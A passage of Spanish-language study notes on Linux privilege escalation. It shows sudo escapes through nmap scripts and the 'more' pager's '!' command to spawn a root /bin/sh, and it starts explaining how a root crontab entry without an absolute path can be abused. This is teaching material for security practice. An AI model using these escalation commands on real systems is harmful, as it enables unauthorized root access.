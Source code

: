 ```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```


- **more** → Tanto `less` como `more` (paginadores de texto) tienen funciones para ejecutar comandos externos. Al presionar `!` seguido de un comando (`sh`), lo ejecutan como root.

```bash
TERM= sudo more /etc/profile
!/bin/sh
```


## ⏱️Crontab
>[!abstract] Definición:
>`crontab` viene de **cron**, que es un servicio de Linux para **ejecutar tareas programadas automáticamente** en horarios definidos, se encuentra en /etc/crontab

Podemos ver el crontab sin ser sudo, con el comando
```bash
cat /etc/crontab
```

Aparece algo como esto:
```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

🔹 **¿Qué nos interesa aqui?** 
La línea `* * * * * root overwrite.sh` significa que **cada minuto**, el usuario `root` ejecuta un archivo llamado `overwrite.sh`, y lo mismo sucede con `compress.sh`.

Sin embargo, para `overwrite.sh` **no está usando una ruta absoluta**, así que el sistema tiene que buscar **dónde está ese script**.
